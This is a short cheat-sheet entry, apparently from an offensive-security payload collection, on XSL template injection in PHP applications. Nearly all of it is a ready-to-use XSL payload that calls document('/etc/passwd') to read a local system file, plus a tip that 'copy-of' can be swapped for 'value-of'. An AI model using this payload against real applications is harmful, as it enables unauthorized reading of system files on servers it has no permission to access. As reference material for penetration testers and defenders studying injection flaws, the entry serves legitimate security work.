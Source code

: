 # PHP XSL Template Injection

If you can control the XSL file in a PHP application you can potentially read file contents through error messages  

*NOTE: "copy-of" can be replaced with "value-of"*  

```xsl
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">
        <xsl:copy-of select="document('/etc/passwd')"/>
</xsl:template>
</xsl:stylesheet>
```

